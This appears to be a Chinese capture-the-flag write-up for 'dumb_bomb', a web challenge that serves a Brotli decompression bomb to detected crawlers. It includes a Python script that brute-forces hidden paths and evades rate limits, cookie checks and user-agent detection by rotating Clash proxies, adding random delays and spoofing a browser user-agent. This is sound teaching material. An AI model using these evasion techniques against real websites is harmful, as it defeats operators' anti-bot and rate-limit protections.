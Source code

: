# dumb_bomb

- 出题人: pyy

- 验题人: pyy

## 题目描述

> 笨笨炸弹! (你可能觉得我是可莉厨, 但我和她不熟)

在吸取了上次被扫描后台的经验之后, 我制作了究极反爬机制, 给检测出的爬虫致命一击! 就算字典里有我的flag路径, 你们也拿不到

啊, 这个反爬机制好像有点笨? 但愿不要误伤到无辜的人群()

无法访问此页面? 没事, 反正你也不用浏览器爬对吧~

温馨提示: 访问`/small_bomb`来体验1/64炸弹的威力. 请注意内存噢~

**第二阶段提示:** 这是一个gzip炸弹一样的东西, 但是只有在检测到你是爬虫才会发作(真的嘛?), 那怎么让他觉得你不是爬虫捏? (难道要自己写python了!)

## 出题思路

在网上看到一个gzip炸弹之后觉得挺好玩的, 试了下dirsearch爬炸弹会吃完内存, 所以就写了一个用压缩包炸弹来反爬的小程序. [吃内存的网页炸弹 – 晨旭的博客](https://www.chenxublog.com/2020/11/16/web-bomb-eat-memory.html)

原理简单来说就是服务器使用压缩算法给你传一个压缩包, 部分压缩包因为内容完全相同, 所以压缩完以后占用空间很小, 但解压后可以很大(本题是一个64g的Brotli压缩包(也就是.br包)).

一些浏览器打不开的原因是默认请求头accept-encoding不包含br, 因此无法解析返回的br压缩包. 但dirsearch是会解压的(至少我的会), 所以会出现吃内存的问题(咦, 但是好像有同学说他dirsearch只会扫出来一堆错)

本题识别到爬虫就会返回一个压缩包炸弹, flag藏在字典中的某个路径. 当认为是正常访问时才会返回一个正常的结果. 识别手段有以下三种:

- 访问频率: 要求同一个ip30秒内访问次数不超过10次, 并且间隔的方差超过0.05(如果30秒内访问>=3次的话; 这个限制一般)
- cookie验证: 每次访问除了`'/','/bomb','/small_bomb'`以外的任意路径都会查询cookie中的session值, 如果redis中没有这个值则认为是爬虫, 否则允许访问但赋予一个新的值.
- ua等验证: 使用crawlerdetect.CrawlerDetect进行header验证, 会ban掉爬虫ua.

## 解法

ip的访问频率可以使用兴趣小组讲过的clash作为ip轮换的方法解决, 具体操作见: [Clash实现IP秒级切换(含简易源码分析)](https://segmentfault.com/a/1190000040828310). 一般来说, 大伙的clash里至少会有20个节点, 这足够用两个小时跑出结果了. 此外, 间隔的方差加一个随机数就可以大致解决.

cookie验证的话, 使用requests.Session即可自动记录cookie. (在访问`/`的时候会给一个set-cookie, 此时Session会自动记录, 并且在下一次发送数据包的时候加上这个cookie). 

UA复制一个浏览器的就可以解决.

以上是思路, 以下是代码

```python
# 炸弹指的是压缩包炸弹, 但是会返回br结果, 如果直接爬取会出问题
# 反爬手段: 1. 限制同ip访问频率(访问间隔是否固定, 30秒内是否超过10次) 2. 检测ua 3. 检测cookie
# 反制手段: 1. 慢慢爬/ip池 2. 使用浏览器ua 3. 使用requests.Session

#随机与延时
from random import random as rd
from time import sleep 
#线程池, 让他拿着一个session去爬
from concurrent.futures import ThreadPoolExecutor
#进度条, 有效降低人的焦躁感
from tqdm import tqdm

#请求库
import requests
#便于f5的时候读取
from pitricks.utils import pwd

#目标网站
URL = 'http://121.5.48.11:20016/'

#随便继承一个错误类
class SessionWrong(Exception):
  pass

#读取字典文件, 按照行分割
def get_dict():
  with open(pwd()/'dict.txt') as f:
    return [line.strip() for line in f.readlines()]

#初始化session, 并且访问网站根目录(这样就可以获得初始session)
def init_session():
  sess = requests.Session()
  sess.get(URL)
  return sess

#爬取一个url
def craw_one(url: str, sess: requests.Session):
  # 设置stream=True, 避免自动解压
  # 设置ua为浏览器ua
  # 使用clash代理, clash里开负载均衡
  res = sess.get(
    url, stream=True,
    headers={'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36 Edg/112.0.1722.68'}, 
    proxies={'http': "http://127.0.0.1:7890"})
  # 发现爬到了炸弹, 停止8秒后跳出(轻轻举起异常)
  if res.headers.get('content-encoding', None)=='br':
    sleep(rd()*16)
    # print("sleep......")
    raise SessionWrong()
  # 这个节点坏掉了, 再发一次包(clash会自动换节点)
  if res.status_code==502:
    return craw_one(url, sess)
  #如果不是404, 返回True
  return res.status_code!=404

#初始化一个进度条
progress_bar: tqdm
#爬取list内的所有path
def craw(paths: list[str]):
  #把外面的进度条拿进来
  global progress_bar
  #初始化一个session
  sess = init_session()
  #遍历每一个path
  for path in paths:
    #如果爬取失败, 重试
    while True:
      try:
        if craw_one(URL+path, sess):
          print(path)
        break
      except requests.exceptions.ConnectionError:
        pass
      except SessionWrong:
        #如果session坏了, 重新初始化
        sess = init_session()
    
    #进度条++
    progress_bar.update()
    #随机延时5秒左右
    sleep(rd()*10)

if __name__=='__main__':
  #读取字典
  dic = get_dict()
  #初始化进度条
  progress_bar = tqdm(range(len(dic)))
  #开80个线程(因为我有130个节点)
  pool = ThreadPoolExecutor(80)
  #按照20个一组, 分组爬取
  [f.result()
   for f in [pool.submit(craw, dic[i:i+20]) 
             for i in range(0, len(dic), 20)]]
```

```yaml
# clash parsers
parsers: # array
  - url: xxx
    yaml:
      append-proxy-groups:
        - name: ⚖️ 负载均衡-轮询
          url: 'http://www.google.com/generate_204'
          interval: 600
          type: load-balance
          strategy: round-robin
      commands:
        - proxy-groups.⚖️ 负载均衡-轮询.proxies=[]proxyNames
        - proxy-groups.0.proxies.0+⚖️ 负载均衡-轮询
```

